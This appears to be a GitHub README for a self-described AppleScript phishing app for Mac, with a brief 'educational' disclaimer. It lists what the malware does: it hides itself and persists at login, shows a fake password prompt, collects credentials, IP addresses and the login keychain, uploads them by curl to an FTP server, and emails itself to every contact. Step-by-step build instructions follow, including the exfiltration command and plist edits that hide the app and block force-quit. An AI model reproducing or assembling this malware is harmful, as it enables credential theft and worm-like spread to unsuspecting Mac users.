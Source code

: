 Benb116's Phishing app for Mac
==========================

**Use this tool at your own risk. Don't do anything illegal. I do not accept any responsibility for any damages or harm done. This is purely an educational endeavor (for me).**

This is a phishing app that I wrote. It is written in applescript, which is important because it shows that potentially harmful tools can be written using a simple language and relatively limited programming knowledge. It is small and works on macs, whose users often don't worry about malware on their computers. This makes the app more effective, especially when disguised as a music file or photo. 

**Here's what it does:**

* It makes a new hidden directory in the user's public folder, then checks for a killswitch
* It copies a duplicate of itself to the folder and sets it as a login item
* It prompts the user to enter their password into a dialog box. If the user doesn't enter it within 10 seconds, the script sets itself as a login item, then kills all user processes, making the user have to restart in order to use the computer.
![image](http://f.cl.ly/items/3E0x2P0l452W2B1p2T0m/Prompt.png)
*  It copies the password, username, date, WAN IP, and LAN IP to a text file in the hidden folder in the user's public folder ![image](http://cl.ly/KB3S/Screenshot%202012-10-16%20at%206.47.02%20AM.jpg)
*  It uploads this file to an FTP server
*  It copies the user's login keychain into the same folder and uploads it to the same FTP server
*  It sends an email to all of the user's contacts' emails with the app attached.

The script is saved as an application with a duplicate application inside of it. It copies the inner application to the hidden folder and sets it as a login item.

 **Please feel free to test the script by doing the following:**

1. In 'App.applescript' and 'Updater.applescript' find the command that uploads the text file to an FTP server.
2. Replace the parts of the code in '<>' with your information.
	
			tell application "Finder" to do shell script "curl -T ~/Public/" & ufld & "" & theuser & ".txt -u <User>:<Password> ftp://<ftp address></path/to/folder/>" & theuser & "_" & WANIP & "_" & dte & ".txt" -- Upload text file to FTP server
		
	becomes
	
			tell application "Finder" to do shell script "curl -T ~/Public/" & ufld & "" & theuser & ".txt -u Benb116:1234 ftp://123.456.789.0/Desktop/Passwords/" & theuser & "_" & WANIP & "_" & dte & ".txt" -- Upload text file to FTP server3. Repeat steps 1 and 2 in both files with the command that uploads the keychain file.
4. Save App.applescript as an application (example name "App.app")
5. Add the following 2 lines of code to the "info.plist" file in "App.app/Contents/" folder

		<key>NSUIElement</key>
        <string>1</string>
(this prevents a dock icon from appearing and also makes it impossible to force quit the app)
6. Add the file "icon.icns" to the resources folder of "App.app"
7. Save Updater.applescript as an application named "Updater.app" - **This MUST be named "Updater.app" for the script to work**
8. Repeat step 5 and 6 for "Updater.app"
9.  Save DK.applescript as an application named "DK.app"
10. Copy Updater.app and DK.app to the resources folder "App.app"

The resources folder of the "App.app" should look something like this:

![image](http://cl.ly/Lz5q/Screen%20Shot%202013-01-06%20at%209.32.02%20PM.png)
